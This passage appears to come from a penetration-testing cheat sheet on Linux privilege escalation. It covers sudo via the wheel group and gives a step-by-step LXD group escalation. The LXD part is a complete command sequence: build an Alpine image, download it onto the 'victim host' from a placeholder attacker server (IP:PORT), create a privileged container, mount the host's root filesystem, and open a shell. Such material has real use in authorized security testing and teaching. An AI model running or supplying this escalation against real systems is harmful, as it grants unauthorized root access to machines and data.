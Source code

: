 ##### Wheel Group

Any user that belongs to the group wheel can execute anything as sudo

```bash
cat /etc/sudoers
sudo su
```

##### LXD & LXC

**Linux Container (LXC)** are often considered as a lightweight virtualization technology that is something in the middle between a chroot and a completely developed virtual machine.
It creates an environment as close as possible to a Linux installation but without the need for a separate kernel.

**Linux daemon (LXD)** is the lightervisor, or lightweight container hypervisor. LXD is building on top of a container technology called LXC which was used by Docker before. It uses the stable LXC API to do all the container management behind the scene, adding the REST API on top and providing a much simpler, more consistent user experience.

When you are part of the LXD group, you can initialize the LXD process

```bash
lxd init # Initialize the LXD the process
# !!! When the "Do you want to configure a new storage pool?" appears, enter yes
# On your own machine get distrobuilder which is a system container image builder for LXC and LXD
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools # Install the requirements on your own machine
go get -d -v github.com/lxc/distrobuilder # Clone distrobuilder repo
cd $HOME/go/src/github.com/lxc/distrobuilder # Get to the make folder for distrobuilder
make # Make it

# Prepare the creation of alpine (still on your own computer)
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml # Create the LXD container using distrobuilder
# You will have then a lxd.tar.xz file and a rootfs.squashfs file

# Upload them to the victim host
wget http://IP:PORT/lxd.tar.xz
wget http://IP:PORT/rootfs.squashfs
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine # Import an image using the META file (lxd.tar.xz) and ROOTFS file (rootfs.squashfs)
lxc init alpine thomasd -c security.privileged=true # Create a container called thomasd from images alpline and give a configuration parameter to run the instance in privileged mode
lxc list # Verify that the container thomasd exist
lxc config device add thomasd host-root disk source=/ path=/mnt/root recursive=true # Add an extra device which mount "/" within the instance to the "thomasd" container  
lxc start thomasd # Run the container thomasd
lxc exec thomasd /bin/sh
#[System]:~# cd /mnt/root #Here is where the filesystem is mounted
```
